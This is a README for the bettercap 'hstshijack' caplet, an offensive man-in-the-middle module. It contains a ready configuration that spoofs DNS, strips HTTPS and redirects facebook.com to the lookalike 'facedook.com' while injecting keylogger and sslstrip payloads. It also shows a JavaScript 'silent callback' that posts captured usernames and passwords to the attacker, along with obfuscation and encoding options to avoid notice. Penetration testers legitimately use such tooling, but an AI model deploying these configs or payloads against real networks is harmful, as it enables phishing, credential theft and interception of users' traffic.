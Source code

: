 <p align="center">
  <img width="420px" src="https://cdn.rawgit.com/yungtravla/cdn/ccdc3b8d/github.com/bettercap/caplets/hstshijack/logo.svg" />
</p>

### Caplet

```sh
set hstshijack.log             /usr/local/share/bettercap/caplets/hstshijack/ssl.log
set hstshijack.payload         /usr/local/share/bettercap/caplets/hstshijack/payloads/hstshijack-payload.js
set hstshijack.ignore          *
set hstshijack.targets         facebook.com,*.facebook.com
set hstshijack.replacements    facedook.com,*.facedook.com
set hstshijack.blockscripts    facebook.com,*.facebook.com
set hstshijack.obfuscate       false
set hstshijack.encode          true
set hstshijack.custompayloads  *:/usr/local/share/bettercap/caplets/hstshijack/payloads/sslstrip.js,*:/usr/local/share/bettercap/caplets/hstshijack/payloads/keylogger.js

set http.proxy.script  /usr/local/share/bettercap/caplets/hstshijack/hstshijack.js
set dns.spoof.domains  facedook.com,*.facedook.com

http.proxy  on
dns.spoof   on
```

### Core payload

This module injects HTML & JS files with a payload (<a href="./payloads/hstshijack-payload.js">**hstshijack-payload.js**</a>) that communicates with this module, revealing all URLs that are discovered in the injected document.

This is done in separate and asynchronous requests so that the bettercap proxy can adjust the host and path for each request, and send a HEAD request to learn each host's response headers for a HTTP request.

### Custom payloads

You can also inject your own JavaScript payload(s) into HTML & JS files from targeted hosts by assigning them to the `hstshijack.custompayloads` variable.

Example:

```sh
hstshijack.custompayloads *:hstshijack/payloads/sslstrip.js,google.com:hstshijack/payloads/google.js,*.google.com:hstshijack/payloads/google.js
```

Once the payload is injected into a page, you can technically phish any data unless the client navigates to a URL that either has strict transport security rules enforced by their browser, or the URL was not stripped due to JavaScript security.

<a href="./payloads/sslstrip.js">**sslstrip.js**</a> is included, which strips the `s` from all `https://` instances in `<a href="...` tags.

### Obfuscation

Your custom payloads are automatically obfuscated by the module.

Any instance beginning with `obf_` will be obfuscated.


Example: 

```js
function obf_function() {
  alert("Random variable: obf_whatever_follows")
}

obf_function()
```

Will be injected as:

```js
function jfIleNwmKoa() {
  alert("Random variable: AsjZnJWklwMNqshCaloE")
}

jfIleNwmKoa()
```

### Encoding

Payloads can be injected in HTML documents using base64 encoded data URLs.

To enable payload encoding, set `hstshijack.encode` to `true`.

### Silent callbacks

You can write custom payloads that communicate with bettercap without alerting the host.

Example of a silent callback:

```js
form.onsubmit = function() {
  req = new XMLHttpRequest()
  req.open("POST", "http://" + location.host + "/obf_path_callback?username=" + username + "&password=" + password)
  req.send()
}
```
<sup>Note: Every instance of `obf_path_callback` will be replaced with the callback path, every instance of `obf_path_whitelist` will be replaced with the whitelist path, and every instance of `obf_path_ssl_log` will be replaced with the SSL log path.</sup>

The code above will send a POST request that will be sniffed by bettercap, but not proxied. 

As soon as bettercap receives a silent callback, any request for the targeted host will no longer be spoofed for that client.

### Block scripts

In the <a href="./hstshijack.cap">**caplet file**</a> you can block JavaScript on hosts by assigning them to the `hstshijack.blockscripts` variable. _(wildcard allowed)_ 

### SSL log

If a host responds with a HTTPS redirect, the module saves this host in the SSL log, and bettercap will from then on spoof SSL connections for this host when possible.

### Hostname spoofing

In the <a href="./hstshijack.cap">**caplet file**</a> you can assign comma separated domains to the `hstshijack.targets` variable. _(wildcard allowed)_

For every hostname you assign to `hstshijack.targets` you must assign a replacement domain to the `hstshijack.replacements` variable.

Example:

```sh
set hstshijack.targets       blockchain.info,*.blockchain.info
set hstshijack.replacements  blockchian.info,*.blockchian.info
```

You can try to make them as unnoticeable or obvious as you like, but your options are limited here.
